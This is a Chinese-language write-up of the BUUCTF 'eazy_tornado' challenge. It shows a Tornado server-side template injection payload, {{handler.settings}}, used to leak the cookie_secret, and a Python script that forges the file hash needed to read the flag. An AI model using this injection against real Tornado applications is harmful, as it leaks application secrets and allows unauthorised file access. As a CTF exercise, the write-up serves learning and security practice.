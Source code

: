 ```yaml
---
title: BUU-eazy_tornado
date: 2021-10-30 16:03:45
updated: 2021-10-30 16:03:45
tags: [SSTI]
categories: BUUCTF
toc: true
---
```

一道题的解题记录
<!-- more -->

打开题目发现三个文件，点开查看并观察URL

![](https://i.loli.net/2021/10/30/l6HpMQYB2SCx9wy.png)

![](https://i.loli.net/2021/10/30/flhtrHZbuFmMgpc.png)

![](https://i.loli.net/2021/10/30/JCk4lb63PQSrDTA.png)

![](https://i.loli.net/2021/10/30/BaJhHlbWuFYf3qS.png)

了解到访问一个文件需要知道它的特殊hash值

### **知识点：**

 `render()`，这个是生成模板的函数，于是想到模板注入STTI。

尝试访问`/fllllllllllllag`,出现报错页面，很有可能就是注入点

![](https://i.loli.net/2021/10/30/1QI7qOBpyM56wZi.png)

![](https://i.loli.net/2021/10/30/b21k5eVaDqlXgNE.png)

用了几次基本的注入模板，发现总是出现ORZ，应该是被过滤了一些特殊字符

> 在Tornado的前端页面模板中，Tornado提供了一些对象别名来快速访问对象，具体定义可以[参考Tornado官方文档](http://tornado.readthedocs.org/en/latest/guide/templates.html#template-syntax)！

![image-20211030161106297](https://i.loli.net/2021/10/30/1AkTlqnGQjbXgJ6.png)

网上搜索了解到，可以使用`{{handler.settings}}` 获取当前页面的一些请求信息

handler 指向RequestHandler

而RequestHandler.settings又指向self.application.settings。

所以构造payload:

```bash
error?msg={{handler.settings}}
```

![](https://i.loli.net/2021/10/30/JMAUYotPcryFBdv.png)

拿到cookie_secret，用python写脚本构造filehash

```python
import hashlib

cookie = '1ccd7a19-fe54-4ce1-a950-d70dc6e701a0'
filename = '/fllllllllllllag'

def md5(code):
    m = hashlib.md5() #创建md5对象
    m.update(code.encode('utf-8')) #更新md5要加密的值，主要要encode
    return m.hexdigest()

res = md5(cookie+md5(filename))
print(res)
```

![image-20211030163223338](https://i.loli.net/2021/10/30/NulfhPBsi4HRZkn.png)

